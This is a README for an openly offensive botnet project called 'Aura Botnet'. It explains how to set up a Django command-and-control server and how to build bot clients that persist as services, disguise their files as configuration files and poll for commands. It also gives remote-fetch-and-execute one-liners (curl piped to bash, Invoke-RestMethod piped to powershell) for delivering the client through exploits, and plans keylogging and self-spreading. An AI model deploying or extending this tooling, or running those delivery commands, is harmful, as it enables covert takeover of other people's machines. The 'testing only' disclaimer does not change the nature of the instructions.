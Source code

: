 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the `django-server`
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:django_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The Django server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in the *settings.py*
file under `django-server/aura`. You may wish to use MySQL, or even PostgreSQL
instead; this easy to do thanks to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

To initialize the SQLite3 database, simply change into the `django-server`
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
`runserver.sh` is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
You can choose whichever client you feel is most appropriate for the platform
and use case.

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

For the Linux C++ client, change into the source directory (`aura-client`) and
run:
```
cmake .
make
```

For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory (`alt-clients/rust/rust-linux` or
`alt-clients/rust/rust-windows`) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

The Powershell and Bash clients simply need to be executed on the target
machine.

The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

Configuring Commands
---

These can easily be managed through the Django shell or admin site. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Cleanup code styling and optimize Django views
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Create clients for mobile devices
- Implement compatibility with running C2 server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
